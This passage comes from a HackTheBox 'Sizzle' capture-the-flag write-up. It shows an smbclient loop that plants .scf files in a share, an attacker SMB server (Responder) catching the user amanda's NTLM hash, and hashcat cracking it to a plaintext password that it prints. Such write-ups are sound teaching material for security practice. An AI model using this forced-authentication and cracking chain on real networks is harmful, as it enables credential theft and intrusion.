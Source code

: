 ```bash
for i in $(ls);do smbclient -N \\\\sizzle.htb\\"Department Shares" << EOF                      
for heredoc> cd Users\Public
for heredoc> put $i                                             
for heredoc> EOF
for> done
``` 

After a few seconds I catch `amanda`'s NTLM hash in responder:

![amanda-ntlm-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/amanda-ntlm-15.png)


After reading other people's writeup for this box, I came to find that the attack worked due to the Windows Explorer Shell Command file (.scf). In short, we can force anyone who enters a directory containing a `.scf` file to fetch a desktop icon image from an SMB server we control. You can read more about it [here](http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf).



From here, I try to crack it using hashcat:

```bash
hashcat -m 5600 -a 0 "<entire_hash>" rockyou.txt 
```

![cracked-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/cracked-16.png)


And now we get creds of `amanda : Ashare1972`, nice! 
